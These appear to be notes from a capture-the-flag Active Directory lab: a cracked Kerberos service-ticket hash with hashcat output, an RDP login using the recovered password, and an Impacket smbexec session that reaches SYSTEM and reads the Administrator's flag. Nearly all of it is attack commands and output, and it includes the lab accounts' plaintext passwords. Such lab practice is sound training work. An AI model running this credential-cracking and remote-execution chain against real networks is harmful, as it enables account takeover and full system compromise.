$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$64ca366c5f16a5c6726f1d82f058ba1e$96b440936c0cf3227c112a3321ad52bbed7257b71556dad30fc5ffbb6d5fcdad6bb3de67cd337a03a4527bc797644bc5087e0d879cab9ab940c0ca5d230275fc19b7f3eb8694d9bd78fb3b6c8bd64ac6e49f6ab49def61b66e988bf65e6d45d4a3df0289a4baa8eefd0c09a35b0b3a97e35f7a8432c56e09839eb5dc59b5395070f217a3bbbe0bb144d9dea1aacb74cfeb2fa52c4607bfe2153334abccee928a1b76ce1b08fe4f997c67c03911bb42b8e482a496553a59ea38cf400d753893287c0980ed32a455f6e301bdc5efaa57de904e99c259acc1cffa87b03da0dd0ec1c7b24052d1a6936041a14505053a9bffb27ddb0812e3ae70ee7caeedd1d7d60c439b4971cfd3222b7c4c03c1ca75f600356b2826d264fb4364928274710c23e38693c4224409690ad7f3e0e6004144ca2f479a45cfd5d5c3718fd6e1e7858c7ef7f5fbd33d1668353247fe0c5e82e840bdc4d7b00255d74dfa0a04469c0eeeeb28d551a52da1bef7796538aa5cccecddd1cbaadaf1acf96ec90d1a78d09dc6473f5681f16b0142874378bfc9d9b5cb8653d08c2cc4a519585ead4dac922d32ab81c1468267fec2b31dde34dc1fba43e1db73032e05a9b71ffe03b493e2c620fd68be2ada29bc0d082ee08c2e267e60017db0bbb74c2b79540aacd5bde8fdb5ac94a1b8c3ae908761b1b65ffe6c785ce6c096a1972b9efcceab7bc3ab3ba3af9be04eeaec30260c2910d796ca7af656915af9ecaa47eadf20a784eb75dcc8e94bd0df7833b5c1e604b461aa3bcf3a760139e9462bd9b081bde55ffa9a321f7da728af2b9926445c8f897dede6eff78c5ef3d65cf7e019eb2b93d16c80bf959552bbd48fb6ad213853bb42579253a21dff072f6d121d0d6ebb564fd453d3e95a3b207e8abd8bd0e4afe06cf6f8ffcf7a6dadf1e87c5340078ac72f11c6663cd4f90cd1ae9322ff68df497118dbfbf00f9beaee475fc8a359ff4aa63ed3fcfef30b2fbc7870de0f83db84d1a715164c20f31db4bfd5daa4070fb23bbed5a01a4f5eee2829c379da94c034fdfeac33afc4ab3d3560ed72d9ae3e80d1063bd4bc6c5e36da282944b3c75170796ab95eccc917d4a52e2f620eef445bd1c4bb9bc9240a4d502f33a5c4ad7712ea09ff107e1e885b01adaeebb0e88f41174cf4356f195277c6c7600210ef7e298d8f8cb22563cb76e0aec36480f155797ad7eb56c252df55ee33d17ed6a3e9fabe264f4dda45f9c25e0bbf0777df5a185c668813dcfdb8d153e30351899b6cbd878bf3b432ca3a48af40ba413128257d17339cfe691e1ae79dcc1d69c4a21c2afc96d91d24f238a601420ff90a86aa66e579e859166e7e0c8d99702c2ef43cecd062d5b7d221eac12f16453f0918a0150f17b2b5b88434c36d788927dbde4c48f110bac2532e5a39e08a2a4878f42945cfe21a238ea799a3d7eaac0b4cb29f3268a0fac92f0ab535cc30e5b2d486b9b8b83ad8a78100ccb1e8ab84f2cf8f39f4502d48263621d2220:lovinlife!
                                                          

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JE...1d2220
Time.Started.....: Wed Sep 16 09:39:32 2026 (1 sec)
Time.Estimated...: Wed Sep 16 09:39:33 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1173.9 kH/s (1.42ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 626688/14344387 (4.37%)
Rejected.........: 0/626688 (0.00%)
Restore.Point....: 622592/14344387 (4.34%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: magkawas -> lokita6
Hardware.Mon.#01.: Util: 64%

Started: Wed Sep 16 09:39:26 2026
Stopped: Wed Sep 16 09:39:35 2026

```

```jsx
┌──(root㉿Yoinkas)-[/home/yoinkas/Downloads/BloodHound-linux-x64]
└─# xfreerdp /v:ad.thm.local /u:'jerri_lancaster' /p:'lovinlife!' /dynamic-resolution /clipboard /cert:ignore

```




```jsx
┌──(root㉿Yoinkas)-[/home/yoinkas/Downloads/BloodHound-linux-x64]
└─#smbexec.py 'THM.LOCAL/SANFORD_DAUGHERTY:RESET_ASAP123@ad.thm.local@ad.thm.local'
Impacket v0.14.0.dev0+20251209.143744.82a5a8f0 - Copyright Fortra, LLC and its affiliated companies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt.txt
THM{INFILTRATION_COMPLETE_OUR_COMMAND_OVER_NETWORK_ASSERTS}
```